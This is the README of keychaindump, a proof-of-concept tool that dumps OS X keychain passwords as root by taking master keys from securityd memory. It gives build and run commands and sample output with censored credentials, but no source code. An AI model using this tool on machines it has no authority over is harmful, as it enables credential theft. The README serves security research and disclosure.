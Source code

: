 # keychaindump
Keychaindump is a proof-of-concept tool for reading OS X keychain passwords as root. It hunts for unlocked keychain master keys located in the memory space of the securityd process, and uses them to decrypt keychain files.

## How?
Build instructions:

    $ gcc keychaindump.c -o keychaindump -lcrypto

Basic usage:

    $ sudo ./keychaindump [path to keychain file, leave blank for default]

Example with truncated and censored output:

    $ sudo ./keychaindump 
    [*] Searching process 15 heap range 0x7fa809400000-0x7fa809500000
    [*] Searching process 15 heap range 0x7fa809500000-0x7fa809600000
    [*] Searching process 15 heap range 0x7fa809600000-0x7fa809700000
    [*] Searching process 15 heap range 0x7fa80a900000-0x7fa80ac00000
    [*] Found 17 master key candidates
    [*] Trying to decrypt wrapping key in /Users/juusosalonen/Library/Keychains/login.keychain
    [*] Trying master key candidate: b49ad51a672bd4be55a4eb4efdb90b242a5f262ba80a95df
    [*] Trying master key candidate: 22b8aa80fa0700605f53994940fcfe9acc44eb1f4587f1ac
    [*] Trying master key candidate: 1d7aa80fa0700f002005043210074b877579996d09b70000
    [*] Trying master key candidate: 88edbaf22819a8eeb8e9b75120c0775de8a4d7da842d4a4a
    [+] Found master key: 88edbaf22819a8eeb8e9b75120c0775de8a4d7da842d4a4a
    [+] Found wrapping key: e9acc39947f1996df940fceb1f458ac74b877579f54409b7
    xxxxxxx:192.168.1.1:xxxxxxx
    xxxxxxx@gmail.com:login.facebook.com:xxxxxxx
    xxxxxxx@gmail.com:smtp.google.com:xxxxxxx
    xxxxxxx@gmail.com:imap.google.com:xxxxxxx
    xxxxxxx:twitter.com:xxxxxxx
    xxxxxxx@gmail.com:www.google.com:xxxxxxx
    xxxxxxx:imap.gmail.com:xxxxxxx
    ...

## Who?
Keychaindump was written by [Juuso Salonen](http://twitter.com/juusosalonen), the guy behind [Radio Silence](http://radiosilenceapp.com) and [Private Eye](http://radiosilenceapp.com/private-eye).

## License
Do whatever you wish. Please don't be evil.